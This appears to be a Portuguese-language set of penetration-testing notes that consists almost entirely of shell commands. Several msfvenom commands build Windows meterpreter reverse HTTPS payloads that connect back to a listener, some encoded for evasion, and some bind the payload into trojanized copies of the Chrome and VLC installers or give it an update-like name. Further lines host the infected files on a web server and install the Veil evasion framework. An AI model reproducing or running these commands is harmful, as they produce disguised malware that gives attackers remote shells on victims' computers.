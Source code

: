 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<seu_ip> LPORT=443 -f exe -x vlc_setup.exe -o vlc_infectado.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

http://192.168.1.137:8080/vlc_infectado.exe


wget https://get.videolan.org/vlc/3.0.20/win64/vlc-3.0.20-win64.exe -O vlc_setup.exe

set PAYLOAD windows/x64/meterpreter/reverse_https

mkdir /var/www/html/payloads

cp /root/Fatrat_Generated/relatorio_seguranca.exe /var/www/html/payloads/

find / -name "relatorio_seguranca.exe" 2>/dev/null


git clone https://github.com/Veil-Framework/Veil.git

cd Veil

./config/setup.sh --force



